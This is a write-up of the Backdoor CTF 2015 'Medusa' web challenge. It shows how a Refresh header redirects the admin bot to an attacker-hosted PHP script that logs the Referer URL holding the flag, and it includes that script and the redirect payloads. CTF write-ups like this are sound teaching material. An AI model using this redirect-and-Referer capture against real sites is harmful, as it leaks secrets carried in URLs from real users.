 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - Medusa Writeup"
date: 2015-04-03 01:06:09 +0430
comments: false
categories: ctf backdoor web
---
```


**Backdoor2015 Medusa Writeup**  
**Point = 100**  
**Category = Web**  
**Description : **  

> The html page you create will be visited by the backdoor admin with the flag.
>You can enter a fake flag to simulate the challenge.


>Get the flag at http://hack.bckdr.in/MEDUSA/

After We open the link that is provided in description we are welcomed with a form.you can send message with html code and after that admin will visit your page with the flag.

<!-- more -->

![alt text](http://up.ashiyane.org/images/nxcfynwxymxjqi2v4u7.png "Medusa Form")

Backdoor CTF admin add a hint and mention that they sent flag as post request

this is sample request that admin sent :

http://hack.bckdr.in/MEDUSA/view.php?id=ID&flag=FLAG

when you sent the message Medusa website create id for you.
you can visit your message with this id ( same as admin :D )

![alt text](http://up.ashiyane.org/images/wu0fm2e5n6shme48fj58.png "Message Read")

we test different method to get the flag value from post request with PHP or JavaScript in our page but we see error or blank page.

>after some investigation our team found answer !!!

we can redirect admin to another page and get the flag

but if they sent request as post cant log the value in second page.so thinking to Referer attribute in the header.

write some code to get and save the Referer in the text file when admin redirect to our PHP page :
Server.php

```
<?php
$ref = $_SERVER['HTTP_REFERER'];
file_put_contents("flag.txt",$ref);
?>
```

 > and sent this code as our page to Medusa form :
```
---
location: http://Attackerwebsite.com/server.php
---
Can you get the **flag**?
```
but after admin visit the link flag.txt is empty !!!

no Referer sent to PHP page...

we test several time ( for this challenge or local tests ) and same result,no Referer save in flag.txt

after some research we found out with this kind of header redirection we cant get Referer and we should change that.

```
---
Refresh: 0; url=http://Attackerwebsite.com/server.php
---
Can you get the **flag**?

```

and guess what?
> we have Referer Link in flag.txt :D



[Referer Link With Flag!](http://hack.bckdr.in/MEDUSA/view.php?flag=6bbaf4e1d3af423dd6c5a03c21c2a35c075392861709f2e896a27ae1f57d30c5&id=d61d051c6e741595491c)

and now you have 100 point :D

WriteUp By Fr0nk

